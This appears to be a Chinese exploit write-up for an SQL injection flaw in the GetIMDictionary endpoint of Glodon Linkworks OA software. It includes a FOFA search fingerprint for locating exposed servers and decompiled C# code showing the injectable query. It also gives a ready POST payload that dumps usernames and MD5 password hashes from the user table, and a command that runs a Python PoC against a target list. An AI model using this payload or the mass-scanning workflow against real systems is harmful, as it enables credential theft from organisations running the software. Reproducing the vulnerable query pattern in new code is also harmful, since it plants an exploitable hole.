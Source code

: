 # 广联达Linkworks办公OA GetIMDictionary SQL注入

## 漏洞描述

广联达Linkworks办公OA /Webservice/IM/Config/ConfigService.asmx/GetIMDictionary接口key参数存在SQL注入

## 漏洞影响

```
广联达 Linkworks
```

## FOFA

```
fid="/yV4r5PdARKT4jaqLjJYqw=="
```

## 漏洞复现

登陆页面

![image-20230815141857159](img/image-20230815141857159.png)

后台验证代码

```
// GTP.IM.Services.Config.WebSite.WebService.IM.Config.ConfigService
// Token: 0x06000018 RID: 24 RVA: 0x00004148 File Offset: 0x00002348
[WebMethod(Description = "得到IM系统配置")]
public string GetIMDictionary(string key)
{
	string str = string.Empty;
	ISysConfigService service = ServiceFactory.GetService<ISysConfigService>();
	StringBuilder stringBuilder = new StringBuilder();
	stringBuilder.AppendFormat("select F_VALUE from T_IM_DICTIONARY where f_key='{0}';", key);
	DataSet dataSet = GSqlDataAccess.SelectDataSet(service.DataSourceName, stringBuilder.ToString(), new DataParameter[0]);
	if (dataSet != null && dataSet.Tables.Count > 0 && dataSet.Tables[0] != null)
	{
		foreach (object obj in dataSet.Tables[0].Rows)
		{
			DataRow dataRow = (DataRow)obj;
			str = dataRow["F_VALUE"].ToString();
		}
	}
	StringBuilder stringBuilder2 = new StringBuilder();
	stringBuilder2.Append("<?xml version=\"1.0\" encoding=\"utf-8\"?>");
	stringBuilder2.Append("<result  value=\"" + str + "\" >");
	stringBuilder2.Append("</result>");
	return stringBuilder2.ToString();
}
```

验证POC POST key参数注入即可

```
POST /Webservice/IM/Config/ConfigService.asmx/GetIMDictionary

key=1' UNION ALL SELECT top 1 concat(F_CODE,':',F_PWD_MD5) from T_ORG_USER --
```

得到username和密码

![image-20230815142135624](img/image-20230815142135624.png)

## Python poc

```
python "广联达OA  GetIMDictionary SQL注入.py" -t 广联达OAsql.txt
```

![image-20230815143848992](img/image-20230815143848992.png)